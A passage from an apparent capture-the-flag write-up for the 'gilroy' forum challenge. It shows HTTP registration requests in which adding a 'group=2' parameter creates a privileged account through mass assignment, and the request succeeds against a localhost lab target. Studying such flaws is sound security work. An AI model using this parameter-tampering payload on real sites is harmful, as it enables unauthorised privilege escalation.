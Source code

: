 >[!bug]
>The bug

When users register to the forum, the following request is sent to the server:

```http
POST /forum/newuser.php HTTP/1.1
Host: localhost:4000
Content-Length: 146
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://localhost:4000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:4000/forum/newuser.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWR3A25pbG0AAAAJdGlja2V0X2lkYQE.ibXLTSjB1yUT_F0yG2NyVNBuL2xtfU8kWF7Fco5Wvcg
Connection: close

_csrf_token=PxwsDiADXAQGZ08WYzd_CzsdDBYqXxZkpuukHr6M_7ypPpRrIBKnslDP&name=meethack&password=meethack&password_confirmation=meethack
```

Taking inspiration from the information returned by the `showuser.php` page, we can try guessing other existing body fields, eventually discovering that we can add arbitrary `group` parameters that will be accepted and used by the server.
![](attachments/gilroy-4.png)
```http
POST /forum/newuser.php HTTP/1.1
Host: localhost:4000
Content-Length: 145
Origin: http://localhost:4000
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost:4000/forum/newuser.php
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWR3A25pbG0AAAAJdGlja2V0X2lkYQE.ibXLTSjB1yUT_F0yG2NyVNBuL2xtfU8kWF7Fco5Wvcg
Connection: close

_csrf_token=PxwsDiADXAQGZ08WYzd_CzsdDBYqXxZkpuukHr6M_7ypPpRrIBKnslDP&name=meethack-admin&password=meethack&password_confirmation=meethack&group=2

--- RESPONSE ---

HTTP/1.1 200 OK
```

[^code]: https://github.com/Nautilus-Institute/quals-2024/blob/3ea5b442f1ecfb0cb0c9ce8ede52cb5e8df629b0/gilroy/lib/gilroy_web/controllers/forum/poster_controller.ex#L76
[map-merge]: https://hexdocs.pm/elixir/1.15.0/Map.html#merge/2
[^code2]: https://github.com/Nautilus-Institute/quals-2024/blob/3ea5b442f1ecfb0cb0c9ce8ede52cb5e8df629b0/gilroy/lib/gilroy_web/controllers/forum/poster_controller.ex#L82